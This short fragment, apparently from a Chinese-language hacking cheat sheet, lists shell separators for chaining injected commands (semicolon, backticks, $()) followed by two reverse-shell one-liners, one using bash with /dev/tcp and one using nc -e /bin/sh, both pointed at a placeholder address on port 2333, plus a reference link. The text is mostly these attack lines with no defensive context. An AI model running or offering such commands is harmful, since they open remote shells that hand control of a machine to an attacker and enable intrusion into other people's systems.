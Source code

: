 - 截断命令
`；` `/`` `$()`


- 1
bash -i >& /dev/tcp/x.x.x.x/2333 0>&1
- Default

nc -e /bin/sh x.x.x.x 2333


[参考链接](http://www.91ri.org/9367.html)
